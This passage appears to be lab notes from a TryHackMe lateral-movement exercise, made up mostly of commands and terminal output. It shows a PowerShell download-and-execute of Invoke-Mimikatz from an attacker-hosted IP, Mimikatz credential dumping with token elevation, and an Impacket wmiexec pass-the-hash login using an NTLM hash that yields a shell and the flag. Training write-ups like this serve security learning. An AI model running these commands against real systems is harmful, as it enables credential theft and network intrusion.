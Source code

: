 ```bash
PS C:\Users\t2_felicia.dean> klist

Current LogonId is 0:0x221c60

Cached Tickets: (1)

#0>     Client: t2_felicia.dean @ ZA.TRYHACKME.COM
        Server: krbtgt/ZA.TRYHACKME.COM @ ZA.TRYHACKME.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 7/3/2023 14:52:05 (local)
        End Time:   7/4/2023 0:52:05 (local)
        Renew Time: 7/10/2023 14:52:05 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: THMDC.za.tryhackme.com
```

```bash
┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting/www]
└─$ ln -s /opt/sectools/powershell/Invoke-Mimikatz/Invoke-Mimikatz.ps1 mimi.ps1
```

```bash
iex(new-object system.net.webclient).downloadstring('http://10.50.17.90/mimi.ps1')
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate /domainadmin" "sekurlsa::logonpasswords" exit'
```

![](../../attachment/f9b0c7660c4113641d7cd861a6950ddd.png)

```bash
┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting]
└─$ proxychains -q wmiexec.py za.tryhackme.com/t1_toby.beck@THMIIS.za.tryhackme.com -hashes 00:533f1bd576caa912bdb9da284bbc60fe
Impacket v0.10.1.dev1+20230620.44942.4888172 - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands

C:\>%userprofile%\Desktop\flag.exe
THM{NO_PASSWORD_NEEDED}
```
